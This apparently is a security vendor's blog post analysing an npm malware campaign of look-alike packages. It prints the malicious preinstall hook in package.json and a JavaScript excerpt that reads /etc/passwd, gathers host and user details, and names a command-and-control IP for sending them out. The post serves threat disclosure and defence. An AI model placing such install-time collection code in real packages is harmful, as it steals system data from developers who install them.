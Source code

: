 ```yaml
---
publishDate: 2024-12-11T00:00:00Z
title: 'npm - The Playground for Malicious Packages'
image: /images/npm-the-malware-playground.png
excerpt: Multiple npm packages impersonating popular package names are being used to distribute malware. We take a closer look at the campaign.
tags:
  - npm
  - malware
---
```


Today our OSS package malware analysis bot picked up a new campaign targeting
developers using npm. The campaign involves publishing multiple npm packages
that impersonate popular package names. These packages are being used to
collect basic system information and the contents of `/etc/passwd` file from
the infected systems.

Our system picked up the following packages with very similar behaviour
matching common information gathering techniques:

| Package Name    | Version |
|-----------------|---------|
| themes-vendor   | 0.0.1 |
| x509-escaping   | 0.0.1 |
| keycloak-server | 0.0.1 |
| module-stub     | 0.0.1 |
| keycloak-server | 0.0.3 |
| postject-copy   | 0.0.0 |
| micrometer-docs | 0.0.3 |
| orbit-playroom  | 0.0.0 |
| x509-escaping   | 0.0.0 |
| weekendfe       | 0.0.1 |
| themes-vendor   | 0.0.0 |

`npm` promptly removed these packages from the registry. This was possible
because no other package depended on these malicious packages. All packages
had a similar payload that was being executed when the package was installed.
For example, `themes-vendor` shipped a `package.json` file with the following

```json
{
  "name": "themes-vendor",
  "version": "0.0.1",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "preinstall": "node index.js"
  },
  "author": "",
  "license": "ISC"
}
```

The `preinstall` script in the `package.json` file executed the `index.js`
script which in turn executed the following code:

```javascript
// [...]
const apiHostname = '13.60.183.44';
const apiPort = 5000;
const apiPath = '/submit';

// [...]
let whoamiInfo = '';
try {
    // Execute the 'whoami' command and trim the output
    whoamiInfo = execSync('cat /etc/passwd', { encoding: 'utf-8' }).trim();
} catch (error) {
    whoamiInfo = `Error executing whoami: ${error.message}`;
}

// [...]
const deviceInfo = {
    platform: os.platform(),
    release: os.release(),
    hostname: os.hostname(),
    arch: os.arch(),
    userInfo: os.userInfo(),
    networkInterfaces: os.networkInterfaces(),
    whoamiinfo: whoamiInfo,
    user: "themes-vendor",
};
```

The command and control IP `13.60.183.44` belongs to AWS which along with the
nature of the payload suggests that this campaign is a possible red-team or
security research activity.

```shell
NetRange:       13.60.0.0 - 13.63.255.255
CIDR:           13.60.0.0/14
NetName:        AMAZO-4
NetHandle:      NET-13-60-0-0-1
Parent:         NET13 (NET-13-0-0-0-0)
NetType:        Direct Allocation
OriginAS:
Organization:   Amazon.com, Inc. (AMAZO-4)
RegDate:        2022-10-11
Updated:        2022-10-11
Ref:            https://rdap.arin.net/registry/ip/13.60.0.0
```

## Conclusion

This campaign appears to be a playground for the attackers or possible
red-teamers to test their malware distribution techniques. While the payload
does not appear to be sophisticated or damaging, it still highlights the very
real threat of malicious packages impersonating popular package names.
